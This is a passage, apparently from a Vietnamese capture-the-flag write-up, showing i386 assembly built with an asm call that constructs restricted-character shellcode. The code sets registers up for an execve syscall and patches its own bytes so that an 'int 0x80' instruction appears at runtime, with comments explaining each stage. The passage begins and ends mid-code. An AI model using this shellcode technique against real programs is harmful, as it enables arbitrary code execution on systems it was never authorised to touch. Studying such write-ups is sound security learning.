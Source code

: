 ```python3
    xor ax, 0x5555 # lúc này eax = 0xffffaaaa
    xor ax, 0x2a67 # lúc này eax =  0xffffcd80
    push eax 
    pop edi # edi = 0xffffcd80
    
    ##############################
    ### Stage 3: set ecx = 0x0 ###
    ##############################
    
    push 0x30
    pop eax
    xor al, 0x30

    push eax
    pop ecx
    
    ##############################
    ### Stage 4: set eax = 0xb ###
    ##############################
    
    # note : 0xb = 11
    
    # cộng 1 cho eax 11 lần
    
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax 
    inc eax  # eax = 0xb
    
    ##############################
    ### Stage 4:set int = 0x80 ###
    ##############################
    
    # note : 0x35 = 53
    # nguyên cái shellcode của ta là 53 byte rồi , ebp + x35 là địa chỉ của byte thứ 54 đang là null byte ta sẽ setup bằng 2 byte cuối của rdi lúc này là 0xcd80, vậy là ta đã có int 0x80 mà không cần nhập vào
    # mình có note thêm bằng ảnh dưới các bạn tham khảo thêm
    
    xor [ebp + 0x35], di

    ''', arch='i386')

```
